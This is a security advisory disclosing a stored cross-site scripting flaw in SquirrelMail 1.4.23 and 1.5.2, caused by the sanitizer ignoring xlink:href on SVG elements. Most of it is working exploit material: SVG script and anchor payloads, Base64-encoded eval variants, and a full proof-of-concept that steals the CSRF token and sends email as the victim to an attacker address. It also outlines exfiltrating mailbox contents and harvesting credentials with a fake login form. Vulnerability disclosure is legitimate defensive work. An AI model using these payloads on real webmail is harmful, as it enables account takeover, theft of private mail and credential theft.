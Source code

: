 **Abstract**<br>
SquirrelMail allows to display HTML messages provided that non-safe fragments are redacted. An input sanitization vulnerability that can be exploited to perform stored cross-site scripting (XSS) attacks has been discovered.

A remote attacker can send a specially crafted e-mail containing malicious HTML and execute arbitrary JavaScript code in the context of the vulnerable webmail interface when the user displays the message. This basically grants the attacker the same privileges of the authenticated victim, in particular this enables to (among other things): send e-mail messages on the behalf of the victim, fetch conversations from folders, delete or otherwise manage messages, log the victim out of SquirrelMail, etc.

It is likely that even prior versions are affected since this does not appear to be a regression but merely an insufficient implementation.

**Details**<br>
The HTML sanitizer uses a blacklist approach based on tag and attributes names to recognize potentially dangerous HTML code and decide how to fix it, for example, attributes starting with on are removed as they usually represent events. In particular, the &lt;script> element is deleted and the href attribute can only assume certain schemes (e.g., not javascript:) otherwise it is replaced with a void image URL.

It is possible to bypass these checks by using the SVG counterpart of the &lt;a> and &lt;script> elements. This variant exposes the href attribute as part of the xlink namespace (for the latter it allows to specify the resource containing the script code) therefore it can be accessed with xlink:href which is ignored by SquirrelMail. Moreover, in this context &lt;script> can be self-closing and the lack of closing tag is enough to deceive the sanitizer.

Two methods have been devised, to maximize the chances of success it may be advisable to employ both.

**Credit**<br>
An independent security researcher, Andrea Cardaci, has reported this vulnerability to SSD Secure Disclosure program.

**Affected versions**<br>
SquirrelMail version 1.4.23 (SM-1_4-STABLE @ r14746)<br>
SquirrelMail version 1.5.2 (trunk @ r14747)<br>

No user action required
This solution only works with Firefox and Edge [1] and requires no additional interaction from of the user:

```html
<svg><script xlink:href="data:text/javascript,alert(1)"/></svg>
<svg><script xlink:href="data:text/javascript;base64,YWxlcnQoMSk="/></svg>
```
Arbitrarily complex code can be deployed by using the Base64 format of the Data URL scheme.

**User action required**<br>
This solution has been tested with all major browsers and requires the user to click on an anchor element:

```html
<svg>
<a xlink:href="javascript:alert(1)">
<text y="1em">CLICK ME</text>
</a>
</svg>
<svg>
<a xlink:href="javascript:eval(atob('YWxlcnQoMSk='))">
<text y="1em">CLICK ME</text>
</a>
</svg>
```
Arbitrarily complex code can be deployed by evaluating a decoded Base64 string.

Additionally, to mimic the look and feel of a regular link, the following attributes of the text element can be used:
```css
fill="#0000cc" text-decoration="underline" cursor="pointer"
```

**A note about Firefox**<br>
The HTML sanitizer adds the target=”_blank” attribute to links, in Firefox this means that even javascript: URLs are evaluated in a new tab. Luckily it is possible to obtain the original frame using the window.opener property and possibly close the new window afterwards.

To increase the chances of success the JavaScript payload should look like this:
```JavaScript
// get the real window
const _window = window.opener || window;
// ...
// close the new window, if any
if (window.opener) {
  close();
}
```

**Limitations**<br>
The HTML visualization of messages in SquirrelMail is not enabled by default, users of the stable version need to enable it globally[2] whereas in the development version it can also be toggled for single messages[3]. Nowadays HTML e-mails are sadly widespread so it is reasonable to assume that most users are willing to properly display them.

**Proof of concept**<br>
This proof of concept (PoC) shows how it is possible to trick SquirrelMail in sending arbitrary e-mails on the behalf of a SquirrelMail user.

To prevent cross-site request forgery, SquirrelMail employs per-user security tokens, this is not a problem in this scenario since the valid token can be easily obtained from the current page using this JavaScript snippet:

```JavaScript
document.querySelector('a[href^="/src/delete_message.php"]').href
.match(/.*smtoken=([^&]+).*/)[1];
```
The administrator may decide to enable a per-action token generation instead[4], in this case a token can be obtained with:
```JavaScript
document.querySelector('input[name="smtoken"]').value;
```

The following JavaScript payload takes into account the aforementioned considerations:
```javascript
(function() {
  async function send(data, to) {
    // get the real document
    const _window = window.opener || window;
    const _document = _window.document;
    // fetch the security token from the current page
    let token;
    try {
     token = _document.querySelector('a[href^="/src/delete_message.php"]')
     .href.match(/.*smtoken=([^&]+).*/)[1];
    } catch (err) {}
    try {
     token = _document.querySelector('input[name="smtoken"]').value;
    } catch (err) {}
    // prepare the form data
    const form = new FormData();
    form.append('smtoken', token);
    form.append('send_to', to);
    form.append('body', data);
    form.append('identity', '0');
    form.append('send', 'Send');
    form.append('send1', 'Send');
    form.append('send_button_count', '1');
    // send the message
    await fetch(`${_window.location.origin}/src/compose.php`, {
      credentials: 'include',
      method: 'POST',
      body: form
    });
    // close the new window if needed
    if (window.opener) {
      close();
    }
  }

  send('EXFILTRATED_DATA', 'attacker@localhost');
})()
```
The payload[5]
can be Base64-encoded and the HTML message can be crafted as follows:
```JavaScript
<svg><script xlink:href="data:text/javascript;base64,KGZ1bmN0aW9uKCkge2FzeW5jIGZ1bmN0aW9uIH c
NlbmQoZGF0YSwgdG8pIHtjb25zdCBfd2luZG93ID0gd2luZG93Lm9wZW5lciB8fCB3aW5kb3c7IGNvbnN0IF9kb c
2N1bWVudCA9IF93aW5kb3cuZG9jdW1lbnQ7IGxldCB0b2tlbjsgdHJ5IHt0b2tlbiA9IF9kb2N1bWVudC5xdWVy c
eVNlbGVjdG9yKCdhW2hyZWZePSIvc3JjL2RlbGV0ZV9tZXNzYWdlLnBocCJdJykuaHJlZi5tYXRjaCgvLipzbXR c
va2VuPShbXiZdKykuKi8pWzFdO30gY2F0Y2ggKGVycikge30gdHJ5IHt0b2tlbiA9IF9kb2N1bWVudC5xdWVyeV c
NlbGVjdG9yKCdpbnB1dFtuYW1lPSJzbXRva2VuIl0nKS52YWx1ZTt9IGNhdGNoIChlcnIpIHt9IGNvbnN0IGZvc c
m0gPSBuZXcgRm9ybURhdGEoKTsgZm9ybS5hcHBlbmQoJ3NtdG9rZW4nLCB0b2tlbik7IGZvcm0uYXBwZW5kKCdz c
ZW5kX3RvJywgdG8pOyBmb3JtLmFwcGVuZCgnYm9keScsIGRhdGEpOyBmb3JtLmFwcGVuZCgnaWRlbnRpdHknLCA c
nMCcpOyBmb3JtLmFwcGVuZCgnc2VuZCcsICdTZW5kJyk7IGZvcm0uYXBwZW5kKCdzZW5kMScsICdTZW5kJyk7IG c
Zvcm0uYXBwZW5kKCdzZW5kX2J1dHRvbl9jb3VudCcsICcxJyk7IGF3YWl0IGZldGNoKGAke193aW5kb3cubG9jY c
XRpb24ub3JpZ2lufS9zcmMvY29tcG9zZS5waHBgLCB7Y3JlZGVudGlhbHM6ICdpbmNsdWRlJywgbWV0aG9kOiAn c
UE9TVCcsIGJvZHk6IGZvcm19KTsgaWYgKHdpbmRvdy5vcGVuZXIpIHtjbG9zZSgpO319IHNlbmQoJ0VYRklMVFJ c
BVEVEX0RBVEEnLCAnYXR0YWNrZXJAbG9jYWxob3N0Jyk7fSkoKQ=="/></svg>
<svg><a xlink:href="javascript:eval(atob('KGZ1bmN0aW9uKCkge2FzeW5jIGZ1bmN0aW9uIHNlbmQoZGF0Y c
SwgdG8pIHtjb25zdCBfd2luZG93ID0gd2luZG93Lm9wZW5lciB8fCB3aW5kb3c7IGNvbnN0IF9kb2N1bWVudCA9 c
IF93aW5kb3cuZG9jdW1lbnQ7IGxldCB0b2tlbjsgdHJ5IHt0b2tlbiA9IF9kb2N1bWVudC5xdWVyeVNlbGVjdG9 c
yKCdhW2hyZWZePSIvc3JjL2RlbGV0ZV9tZXNzYWdlLnBocCJdJykuaHJlZi5tYXRjaCgvLipzbXRva2VuPShbXi c
ZdKykuKi8pWzFdO30gY2F0Y2ggKGVycikge30gdHJ5IHt0b2tlbiA9IF9kb2N1bWVudC5xdWVyeVNlbGVjdG9yK c
CdpbnB1dFtuYW1lPSJzbXRva2VuIl0nKS52YWx1ZTt9IGNhdGNoIChlcnIpIHt9IGNvbnN0IGZvcm0gPSBuZXcg c
Rm9ybURhdGEoKTsgZm9ybS5hcHBlbmQoJ3NtdG9rZW4nLCB0b2tlbik7IGZvcm0uYXBwZW5kKCdzZW5kX3RvJyw c
gdG8pOyBmb3JtLmFwcGVuZCgnYm9keScsIGRhdGEpOyBmb3JtLmFwcGVuZCgnaWRlbnRpdHknLCAnMCcpOyBmb3 c
JtLmFwcGVuZCgnc2VuZCcsICdTZW5kJyk7IGZvcm0uYXBwZW5kKCdzZW5kMScsICdTZW5kJyk7IGZvcm0uYXBwZ c
W5kKCdzZW5kX2J1dHRvbl9jb3VudCcsICcxJyk7IGF3YWl0IGZldGNoKGAke193aW5kb3cubG9jYXRpb24ub3Jp c
Z2lufS9zcmMvY29tcG9zZS5waHBgLCB7Y3JlZGVudGlhbHM6ICdpbmNsdWRlJywgbWV0aG9kOiAnUE9TVCcsIGJ c
vZHk6IGZvcm19KTsgaWYgKHdpbmRvdy5vcGVuZXIpIHtjbG9zZSgpO319IHNlbmQoJ0VYRklMVFJBVEVEX0RBVE c
EnLCAnYXR0YWNrZXJAbG9jYWxob3N0Jyk7fSkoKQ=='))"><text fill="#0000cc"
text-decoration="underline" cursor="pointer" y="1em">CLICK ME</text></a></svg>
```

It is likewise possible to retrieve sensitive data by fetching the proper URL[6], for example:
* /src/right_main.php?showall=1&mailbox=INBOX to obtain the message list;
* /src/read_body.php?mailbox=INBOX&passed_id=<messageid> to obtain the message content.

A possible attack scenario would be to fetch all the message identifiers from the first URL, then use the second to fetch individual messages and finally use the above send function to exfiltrate this data [7]

**Bonus scenario**<br>
Another interesting attack scenario takes advantage of the fact that browsers prompt to save the login credentials, the attacker could craft a fake and invisible login form to harvest them. This is particularly worrisome if SquirrelMail is used as a system mail interface where credentials are actual system credentials that might grant access to other services, e.g., SSH, FTP, etc.

**Countermeasures**<br>
Users should refrain from displaying HTML e-mails in SquirrelMail. At the very least, authors should treat the xlink:href attribute the same way as href.

**Notes**<br>
[1] Tested with Firefox version 57.0.1 and Edge version 41.16299.15.0. Apparently, this is a specification misinterpretation by Chrome and others.<br>
[2] Options -> Display Preferences -> Show HTML Version by Default; this vulnerability can also be used to set this option once triggered the first time.<br>
[3] Because the “View as HTML” plugin has been included in that version.<br>
[4] By setting $do_not_use_single_token to TRUE in config/config_local.php.<br>
[5] The destination account does not need to be on the same server, attacker@localhost is used just for the sake of the example.<br>
[6] These URLs may differ across versions.<br>
[7] Not implemented in this PoC for the sake of brevity.<br>
